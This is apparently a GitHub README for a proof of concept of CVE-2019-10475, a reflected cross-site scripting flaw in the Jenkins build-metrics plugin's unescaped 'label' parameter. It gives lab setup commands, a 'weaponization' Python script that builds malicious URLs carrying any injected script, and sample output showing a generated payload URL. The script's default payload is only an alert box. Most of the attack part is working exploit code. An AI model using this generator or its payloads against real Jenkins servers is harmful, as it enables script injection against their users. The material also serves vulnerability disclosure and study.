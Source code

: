# CVE-2019-10475

Quick POC for Jenkins [CVE-2019-10475](https://nvd.nist.gov/vuln/detail/CVE-2019-10475) / [SECURITY-1490](https://jenkins.io/security/advisory/2019-10-23/#SECURITY-1490) reported on 2019-10-23. The issue is within the [build-metrics](https://plugins.jenkins.io/build-metrics) plugin which generates some basic build metrics. It's commonly used with the Jenkins sidebar links plugin.

This is a simple & generic reflected XSS vulnerability. The issue is that the plugin does not properly escape the `label` query parameter.

![0](scrots/0.png)

## Setup

POC was done on Debian 10 (Buster), Jenkins 2.203 (latest 2019-11-05), and build-metrics 1.3.

```bash
# install jenkins
sudo apt-get install daemon psmisc net-tools openjdk-11-jre
wget -q -O - https://pkg.jenkins.io/debian/jenkins.io.key | sudo apt-key add -
wget https://pkg.jenkins.io/debian/binary/jenkins_2.203_all.deb
dpkg -i jenkins_2.203_all.deb
sudo systemctl status jenkins
# activate using admin password
sudo cat /var/lib/jenkins/secrets/initialAdminPassword
# get jenkins cli
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
# install plugins
java -jar ./jenkins-cli.jar -s "http://localhost:8080" -auth admin:password -noKeyAuth install-plugin global-build-stats -restart
java -jar ./jenkins-cli.jar -s "http://localhost:8080" -auth admin:password -noKeyAuth install-plugin build-metrics -restart
```

## Exploit POC

The vulnearble plugin can be found at `http://localhost:8080/plugin/build-metrics/`, the vulnerable parameter is `label`. We can inject a simple script like so:

![1](scrots/1.png)

## Weaponization

See `CVE-2019-10475.py`, it can be used to build malicious payloads:

```python
#!/usr/bin/env python

import sys
import argparse

VULN_URL = '''{base_url}/plugin/build-metrics/getBuildStats?label={inject}&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search'''


def get_parser():
    parser = argparse.ArgumentParser(description='CVE-2019-10475')
    parser.add_argument('-p', '--port', help='port', default=80, type=int)
    parser.add_argument('-d', '--domain', help='domain', default='localhost', type=str)
    parser.add_argument('-i', '--inject', help='inject', default='<script>alert("CVE-2019-10475")</script>', type=str)
    return parser


def main():
    parser = get_parser()
    args = vars(parser.parse_args())
    port = args['port']
    domain = args['domain']
    inject = args['inject']
    if port == 80:
        base_url = f'http://{domain}'
    elif port == 443:
        base_url = f'https://{domain}'
    else:
        base_url = f'http://{domain}:{port}'
    build_url = VULN_URL.format(base_url=base_url, inject=inject)
    print(build_url)
    return 0


if __name__ == '__main__':
    sys.exit(main())
```

Usage:
```
$ python3 CVE-2019-10475.py --help
usage: CVE-2019-10475.py [-h] [-p PORT] [-d DOMAIN] [-i INJECT]

CVE-2019-10475

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  port
  -d DOMAIN, --domain DOMAIN
                        domain
  -i INJECT, --inject INJECT
                        inject

$ python3 CVE-2019-10475.py -p 8080 -d 192.168.1.75
http://192.168.1.75:8080/plugin/build-metrics/getBuildStats?label=<script>alert("CVE-2019-10475")</script>&range=2&rangeUnits=Weeks&jobFilteringType=ALL&jobFilter=&nodeFilteringType=ALL&nodeFilter=&launcherFilteringType=ALL&launcherFilter=&causeFilteringType=ALL&causeFilter=&Jenkins-Crumb=4412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96&json=%7B%22label%22%3A+%22Search+Results%22%2C+%22range%22%3A+%222%22%2C+%22rangeUnits%22%3A+%22Weeks%22%2C+%22jobFilteringType%22%3A+%22ALL%22%2C+%22jobNameRegex%22%3A+%22%22%2C+%22jobFilter%22%3A+%22%22%2C+%22nodeFilteringType%22%3A+%22ALL%22%2C+%22nodeNameRegex%22%3A+%22%22%2C+%22nodeFilter%22%3A+%22%22%2C+%22launcherFilteringType%22%3A+%22ALL%22%2C+%22launcherNameRegex%22%3A+%22%22%2C+%22launcherFilter%22%3A+%22%22%2C+%22causeFilteringType%22%3A+%22ALL%22%2C+%22causeNameRegex%22%3A+%22%22%2C+%22causeFilter%22%3A+%22%22%2C+%22Jenkins-Crumb%22%3A+%224412200a345e2a8cad31f07e8a09e18be6b7ee12b1b6b917bc01a334e0f20a96%22%7D&Submit=Search
```
